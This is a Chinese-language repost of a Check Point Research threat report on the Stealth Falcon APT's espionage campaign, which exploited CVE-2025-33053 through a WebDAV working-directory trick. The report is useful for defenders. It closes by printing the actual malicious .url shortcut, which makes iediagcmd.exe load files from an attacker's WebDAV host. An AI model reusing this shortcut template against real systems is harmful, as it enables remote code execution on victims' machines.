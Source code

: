 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzAxMjYyMzkwOA==&mid=2247531295&idx=2&sn=1bf7b0c5827626d1954d97ddab0be670

#  CVE-2025-33053，Stealth Falcon 和 Horus：中东网络间谍活动传奇  
 Ots安全   2025-06-24 12:26  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
本文深入探讨了Stealth Falcon高级持续性威胁（APT）组织近期发起的网络间谍活动。该活动利用了微软WebDAV协议中的零日漏洞（CVE-2025-33053），通过精心伪装的.url文件从受控服务器执行恶意软件。Check Point Research于2025年6月10日确认了这一漏洞，并由微软在当月补丁星期二更新中发布修复程序。文章特别分析了攻击者如何通过模拟政府招标的钓鱼邮件进行初始渗透，并针对Sophos安全软件实施创新的“进程空心化”攻击技术，将恶意代码注入合法进程（如Sophos.exe）。结合Sophos Central Admin的威胁防护文档和2024年PCRisk关于钓鱼攻击趋势的研究（指出此类感染在24小时内激增），本文揭示了国家支持网络威胁日益复杂的特点。本文旨在为网络安全从业者提供深入见解，以应对此类高级攻击。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tafQoxRH2H6ico44FhKibcbnuA9ZyOhJXmmCs9AqryeeZiaayzjYKHN73IgBtmy8vqee3vEPx3MYbuRRw/640?wx_fmt=png&from=appmsg "")  
  
主要发现  
- Check Point Research (CPR) 发现了 APT 组织Stealth Falcon发起的一项新攻击活动。该攻击使用了一个利用零日漏洞 ( CVE-2025-33053 ) 的 .url 文件，从攻击者控制的 WebDAV 服务器执行恶意软件。  
  
- CVE-2025-33053 漏洞允许通过操纵工作目录来执行远程代码。继 CPR 的负责任披露之后，微软于 2025 年 6 月 10 日发布了补丁，作为 6 月补丁星期二更新的一部分。  
  
- Stealth Falcon 的活动主要集中在中东和非洲，其目标包括土耳其、卡塔尔、埃及和也门的政府和国防部门。  
  
- Stealth Falcon 继续使用鱼叉式网络钓鱼电子邮件作为感染方法，通常包含利用WebDAV和LOLBins部署恶意软件的链接或附件。  
  
- Stealth Falcon 部署基于开源红队框架Mythic 的定制植入程序，这些植入程序源自现有代理或我们称之为Horus Agent 的私有变体。这种定制不仅引入了反分析和反检测措施，还能在最终交付更高级的有效载荷之前验证目标系统。  
  
- 此外，该威胁组织还采用了多个以前未公开的自定义有效载荷和模块，包括键盘记录器、被动后门和DC Credential Dumper。  
  
介绍  
  
2025年3月，Check Point Research 发现一起针对土耳其一家国防公司的网络攻击企图。威胁行为者使用一种此前未公开的技术，通过操纵合法内置 Windows 工具的工作目录来执行托管在其控制的 WebDAV 服务器上的文件。在负责任地披露漏洞后，微软已将该漏洞编号为CVE-2025-33053，并于2025年6月10日发布了补丁，作为其6月补丁星期二更新的一部分。根据攻击的战术、技术和程序 (TTP)、基础设施、代码重叠以及目标概况，我们将此活动归咎于 Stealth Falcon 威胁组织。  
  
Stealth Falcon（也称为 FruityArmor）是一个高级持续性威胁 (APT) 组织，以进行网络间谍活动而闻名，至少自 2012 年以来一直活跃。多年来，据观察，  
> Stealth Falcon获取零日漏洞并使用复杂的定制有效载荷，在其网络间谍活动中找到针对中东各地实体的目标。  
  
> https://www.kaspersky.com/about/press-releases/kaspersky-lab-uncovers-windows-zero-day-exploited                               https://www.welivesecurity.com/en/eset-research/stealth-falcon-preying-middle-eastern-skies-deadglyph/  
  
  
在本报告中，我们分析了 Stealth Falcon 近年来使用的感染链，包括利用基于 WebDAV 的 CVE-2025-33053 漏洞来传播 Horus Agent，这是一种为 Mythic C2（命令与控制）开源框架构建的定制植入体。Horus Agent 以埃及天神荷鲁斯（Horus）的名字命名，荷鲁斯通常被描绘成鹰头人形，是该组织先前使用的定制 Apollo 植入体的进化版。我们还重点介绍了该威胁组织高级间谍工具集中一些此前未披露的定制后利用工具和模块的功能。  
  
感染链：CVE-2025-33053 和 .url 文件  
  
TLM.005_TELESKOPIK_MAST_HASAR_BILDIRIM_RAPORU.pdf.url一个名为（土耳其语： ）的文件TLM.005 TELESCOPIC MAST DAMAGE REPORT.pdf.url由一位与土耳其一家大型国防公司相关的消息人士提交至 VirusTotal。根据其名称模式以及 Stealth Falcon 攻击的历史记录，该 .url 文件很可能是以网络钓鱼邮件中的存档附件形式发送的。文件内容如下：  
  

```
[InternetShortcut]
URL=C:\Program Files\Internet Explorer\iediagcmd.exe
WorkingDirectory=\\summerartcamp[.]net@ssl@443/DavWWWRoot\OSYxaOjr
ShowCommand=7
IconIndex=13
IconFile=C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
Modified=20F06BA06D07BD014D
```
